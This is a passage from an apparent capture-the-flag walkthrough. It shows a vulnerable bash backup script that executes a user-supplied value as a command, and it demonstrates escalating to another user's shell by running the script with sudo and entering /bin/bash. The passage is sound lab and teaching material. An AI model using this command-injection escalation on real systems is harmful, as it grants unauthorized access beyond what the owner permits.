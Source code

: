 ![dale-sudo](/images/team/team-dale-sudo.png)

Interesting... Let's see what the contents of this 
file are

```bash
cat /home/gyles/admin_checks
```

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

The user is asked for input twice and saves them into 
the variables `$name` and `$error`. . Seems normal, 
right? Well the `$error` variable is being called directly,
just like a command! So what happens when we put a 
command in its place

```bash
sudo -u gyles /home/gyles/admin_checks
# input 1 doesn't matter
/bin/bash
```

![gyles-bash](/images/team/team-gyles-bash.png)
